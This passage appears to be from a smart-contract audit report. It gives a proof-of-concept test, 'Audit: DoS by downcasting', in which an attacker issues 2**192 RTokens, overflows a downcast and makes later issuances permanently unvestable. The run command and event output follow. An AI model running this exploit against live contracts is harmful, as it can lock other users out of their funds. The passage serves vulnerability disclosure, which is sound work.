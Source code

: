 The `amount`, `baskets` and `quantities` values are also messed up, but it would not matter anyways...

Under 'Issuance and Slow Minting' tests in `RToken.test.ts`:

```sol
it('Audit: DoS by downcasting', async function () {
      const issueAmount: BigNumber = BigNumber.from(2n ** 192n)

      // Set basket
      await basketHandler.connect(owner).setPrimeBasket([token0.address], [fp('1')])
      await basketHandler.connect(owner).refreshBasket()

      // Attacker issues 2 ** 192, or a multiple of 2 ** 192 RTokens
      // This will cause allVestAt to be veryyyyy high, permanent DoS
      const tx = await rToken.connect(addr1)['issue(uint256)'](issueAmount)
      const receipt = await tx.wait()
      console.log(receipt.events[0].args)
  
      await token0.connect(addr2).approve(rToken.address, initialBal)
      const tx2 = await rToken.connect(addr2)['issue(uint256)'](initialBal)
      const receipt2 = await tx2.wait()
      console.log(receipt2.events[0].args)

      // one eternity later...
      await advanceTime('123456789123456789')
      // and still not ready
      await expect(rToken.connect(addr2).vest(addr2.address, 1))
        .to.be.revertedWith("issuance not ready")

    })
```

Run with:

```bash
yarn test:p1 --grep "Audit: DoS"
```

Expect to see (only important parts shown):

```bash
[
  ...
  recipient: '0x70997970C51812dc3A010C7d01b50e0d17dc79C8',
  index: BigNumber { value: "0" },
  amount: BigNumber { value: "6277101735386680763835789423207666416102355444464034512896" },
  baskets: BigNumber { value: "0" },
  erc20s: [ '0x998abeb3E57409262aE5b751f60747921B33613E' ],
  quantities: [ BigNumber { value: "0" } ],
  blockAvailableAt: BigNumber { value: "627710173538668076383578942320766744610235544446403452" }
]
[
  ...
  recipient: '0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC',
  index: BigNumber { value: "0" },
  amount: BigNumber { value: "6300000000000000000000000000000000000000000000000000000000" },
  baskets: BigNumber { value: "22898264613319236164210576792333583897644555535965487104" },
  erc20s: [ '0x998abeb3E57409262aE5b751f60747921B33613E' ],
  quantities: [
    BigNumber { value: "22898264613319236164210576792333583897644555535965487104" }
  ],
  blockAvailableAt: BigNumber { value: "1257710173538668076383578942320766744610235544446403452" }
]

  RTokenP1 contract
    Issuance and Slow Minting
```
